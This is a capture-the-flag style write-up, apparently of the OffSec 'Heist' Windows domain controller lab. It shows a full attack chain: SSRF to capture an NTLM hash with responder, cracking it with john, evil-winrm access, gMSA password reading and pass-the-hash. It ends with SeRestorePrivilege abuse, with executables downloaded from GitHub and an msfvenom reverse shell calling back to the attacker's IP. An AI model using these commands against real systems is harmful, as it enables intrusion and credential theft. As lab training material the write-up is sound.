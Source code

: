 #Pwned
```IP
192.168.167.165
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.167.165 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-12-19 08:36:09Z)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 125
464/tcp   open  kpasswd5?     syn-ack ttl 125
593/tcp   open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 125
3268/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 
|_http-server-header: Microsoft-HTTPAPI/2.0          
|_http-title: Not Found
8080/tcp  open  http          syn-ack ttl 125 Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-server-header: Werkzeug/2.0.1 Python/3.9.0
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Super Secure Web Browser       
9389/tcp  open  mc-nmf        syn-ack ttl 125 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC              
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC      
49703/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows  
```
## SMB
I usually scan smb service as soon as I see it in case there are some open shares.
```
nxc smb 192.168.167.165 -u '' -p '' 
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219093954.png?raw=true)

But this does not seem to be the case.
## HTTP 8080
Here we are presented with a web browser that doesn't connect to internet. Let's see if it connects to our machine. 
# Exploitation

We start responder in our local machine:
```
sudo responder -I tun0
```
and then try to connect to our machine:
```
http://192.168.167.165:8080/?url=http://192.168.45.246/test
```
And we get a NTLMv3 hash:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094300.png?raw=true)

Let's try to crack it with jhon:
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/enox.hash
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094313.png?raw=true)

Success! Now we have the following credentials:
```
enox:california
```
## WINRM
We can use our discovered credentials with nxc to assess that we have indeed access to the machine:
```
nxc winrm 192.168.167.165 -u 'enox' -p 'california'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094548.png?raw=true)

# PrivEsc

## Manual
We will use evil-winrm to connect to the target machine and get remote code execution:
```
evil-winrm -i 192.168.167.165 -u enox -p 'california'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094828.png?raw=true)

As enox we can navigate to its desktop and retrieve the local flag as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094900.png?raw=true)

However we still need to get access as Administrator. In this directory there is too an `application` directory and a `todo.txt` file:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095142.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095355.png?raw=true)

But they do not seem relevant.
## Automated PE
### Bloodhound

After some manual enumeration we can run bloodhound:
```bash
bloodhound-python -d heist.offsec -c all -u enox -p 'california' -ns 192.168.167.165 --zip
```
We mark enox user as owned and run `Shortest Paths to Domain Admins from Owned Principals`:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219100927.png?raw=true)

In order to exploit the DCSync vulnerability we are presented with we would have to be a local admin, and we are not. Checking the `Outbound Object Control` of our user we notice an odd Group Delegated Object Control, which can be exploited following the Bloodhound recommendations:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102257.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102321.png?raw=true)

It is affecting specifically the user svc_apache. We download an already compiled binary as shown below:
```powershell
iwr -uri https://github.com/expl0itabl3/Toolies/raw/refs/heads/master/GMSAPasswordReader.exe -outfile GMSAPasswordReader.exe
```
And then run the exploit:
```powershell
.\GMSAPasswordReader.exe --accountname svc_apache
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102530.png?raw=true)

```
C9C9F97308956B4AEDD53C1351F47A84
```
Because svc_apache is a service account we will type a dollar sign at the end of it:
```bash
evil-winrm -i 192.168.167.165 -u svc_apache$ -H C9C9F97308956B4AEDD53C1351F47A84
```
And now we have access again as svc_apache. It contains a ps1 script in its Documents folder which seems to add the `SeRestorePrivilege`.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103918.png?raw=true)

And if we check it with `whoami /priv` it is enabled indeed:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103952.png?raw=true)

There is an already precompiled exploit for this token which we can download with the following command:
```powershell
iwr -uri https://github.com/dxnboy/redteam/raw/refs/heads/master/SeRestoreAbuse.exe -outfile SeRestoreAbuse.exe
```

This exploit executes another file with higher permissions, so we will create a reverse shell file with msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.246 LPORT=4444 -f exe > rev.exe
```
And download it to the target machine aswell:
```powershell
iwr -uri http://192.168.45.246:8000/rev.exe -outfile shell.exe
```
And perform the complete exploit as shown below:
```powershell
.\SeRestoreAbuse.exe C:\Users\svc_apache$\Documents\shell.exe
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105244.png?raw=true)

And upon execution we get NT Authority\System access, and therefore we can retrieve the proof.txt flag!

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105350.png?raw=true)

Pwned!
